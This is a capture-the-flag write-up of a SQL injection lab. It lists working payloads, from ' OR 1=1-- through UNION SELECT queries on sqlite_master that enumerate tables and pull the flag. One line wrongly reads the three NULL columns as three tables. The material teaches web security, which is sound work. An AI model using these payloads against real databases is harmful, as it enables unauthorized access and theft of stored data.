### More SQLi Challenge 358

Access the lab, login with `ad|ad`, server throw 500 and `query` to db



Try basic payload



but no flag here, try to exploit `Search` function

try find `'`



No record show, but try `' OR 1=1--`

All record show



To confirm it maybe vulnerable to sql injection attack, send more payload return `false` like `'OR 1=2--`,

No record show, we confirm it vunerable to sql attack



Try to sent `union` payload, it's return `500 - Internal Sever Error` when query `false`



Found when `' UNION SELECT NULL, NULL, NULL--`, it's mean this database have 3 table



Try inject a text, it's ok



Try some payload to get version of database but we all `500` 



 

Found `SQLite` in hints



let's use some query sqlite

TRy to show version, `' union select (select sqlite_version()), 'ez2', 'ez3'--`, SQLite 3.31.1



Using `search=' union select (SELECT tbl_name FROM sqlite_master WHERE type='table'), 'ez2', 'ez3'--`, get `users` tables


Usign `search=' union select (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'), 'ez2', 'ez3'--`, get `users` structure through `CREATE` query



Found `users` tables have `name, password, id` column, let retrieving information
Found `hints` tables have `id, info` column, let retrieving information
Found `more_tables` tables have `id, flag` column, let retrieving information

Let's extract `flag`



#### REFERENCE

[SQLITE cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

